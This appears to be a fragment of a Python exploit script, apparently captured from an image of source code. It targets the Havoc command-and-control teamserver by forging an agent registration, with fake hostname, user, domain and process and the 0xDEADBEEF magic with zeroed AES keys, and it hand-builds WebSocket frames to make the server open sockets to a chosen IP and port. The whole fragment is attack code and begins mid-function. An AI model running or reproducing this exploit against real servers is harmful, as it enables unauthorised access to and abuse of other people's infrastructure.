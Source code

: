 ```
        f"GET /havoc/ HTTP/1.1\r\n"
        f"Host: {host}:{port}\r\n"
        f"Upgrade: websocket\r\n"
        f"Connection: Upgrade\r\n"
        f"Sec-WebSocket-Key: x3JJHMbDL1EzLkh9GBhXDw==\r\n"
        f"Sec-WebSocket-Version: 13\r\n"
        f"\r\n"
    ).encode()
    return request
 
def build_websocket_frame(payload):
    payload_bytes = payload.encode("utf-8")
    frame = bytearray()
    frame.append(0x81)
    payload_length = len(payload_bytes)
    if payload_length <= 125:
        frame.append(0x80 | payload_length)
    elif payload_length <= 65535:
        frame.append(0x80 | 126)
        frame.extend(payload_length.to_bytes(2, byteorder="big"))
    else:
        frame.append(0x80 | 127)
        frame.extend(payload_length.to_bytes(8, byteorder="big"))
 
    masking_key = os.urandom(4)
    frame.extend(masking_key)
    masked_payload = bytearray(byte ^ masking_key[i % 4] for i, byte in enumerate(payload_bytes))
    frame.extend(masked_payload)
 
    return frame
 
parser = argparse.ArgumentParser()
parser.add_argument("-t", "--target", help="The listener target in URL format", required=True)
parser.add_argument("-i", "--ip", help="The IP to open the socket with", required=True)
parser.add_argument("-p", "--port", help="The port to open the socket with", required=True)
parser.add_argument("-A", "--user-agent", help="The User-Agent for the spoofed agent", default="Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36")
parser.add_argument("-H", "--hostname", help="The hostname for the spoofed agent", default="DESKTOP-7F61JT1")
parser.add_argument("-u", "--username", help="The username for the spoofed agent", default="Administrator")
parser.add_argument("-d", "--domain-name", help="The domain name for the spoofed agent", default="ECORP")
parser.add_argument("-n", "--process-name", help="The process name for the spoofed agent", default="msedge.exe")
parser.add_argument("-ip", "--internal-ip", help="The internal ip for the spoofed agent", default="10.1.33.7")
 
args = parser.parse_args()
 
 
# 0xDEADBEEF
magic = b"\xde\xad\xbe\xef"
teamserver_listener_url = args.target
headers = {
        "User-Agent": args.user_agent
}
agent_id = int_to_bytes(random.randint(100000, 1000000))
AES_Key = b"\x00" * 32
AES_IV = b"\x00" * 16
hostname = bytes(args.hostname, encoding="utf-8")
username = bytes(args.username, encoding="utf-8")
```